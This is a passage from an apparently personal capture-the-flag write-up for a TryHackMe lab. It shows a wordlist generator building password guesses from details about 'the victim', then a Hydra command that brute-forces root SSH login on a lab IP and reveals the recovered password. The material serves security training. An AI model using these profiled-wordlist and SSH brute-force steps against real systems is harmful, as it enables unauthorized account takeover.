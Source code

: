 ```bash


> Partners) name: 
> Partners) nickname: 
> Partners) birthdate (DDMMYYYY): 


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY): 


> Pet's name: 
> Company name: 


> Do you want to add some key words about the victim? Y/[N]: Y
> Please enter the words, separated by comma. [i.e. hacker,juice,black], spaces will be removed: G00dP@$sw0rd20  
> Do you want to add special chars at the end of words? Y/[N]: Y
> Do you want to add some random numbers at the end of words? Y/[N]:Y
> Leet mode? (i.e. leet = 1337) Y/[N]: Y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to good.txt, counting 5188 words.
[+] Now load your pistolero with good.txt and shoot! Good luck!

```

## Hydra

Let's try if this password is reused (slightly modified) for root access on [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ hydra -l root -P good.txt 10.10.152.27 ssh -v   

'G00dP@$sw0rd2021'
```

And we get the password, now we return to `cth` shell and `sudo su root'
and we cat the last flag .

